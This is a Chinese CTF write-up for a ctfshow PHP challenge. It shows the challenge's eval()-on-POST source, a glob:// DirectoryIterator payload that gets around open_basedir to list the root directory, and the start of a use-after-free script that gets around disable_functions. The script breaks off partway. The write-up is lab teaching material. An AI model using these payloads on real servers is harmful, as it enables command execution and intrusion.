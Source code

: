 例题：ctfshow-web入门72

题目进去就是这样的：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201020133106630.png#pic_center)好家伙，题目源码里的函数都禁用了，代码都显示不出来

给了源码文件如下：

```php
<?php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>
你要上天吗？
12345678910111213141516
```

这道题有严格的disable_function限制和open_basedir限制。

先利用glob://伪协议绕过open_basedir，发现根目录下有flag0.txt

payload：

```php
c=?><?php
$a=new DirectoryIterator("glob:///*");
foreach($a as $f)
{echo($f->__toString().' ');
}
exit(0);
?>
1234567
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201020134619109.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)

然后用uaf脚本读取flag。

disable_function()限制了很多函数,可以直接用uaf脚本进行命令执行，原理是啥我也很懵。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201020134731119.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)
脚本如下：

最后输入要执行的命令即可。

```php
c=function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
```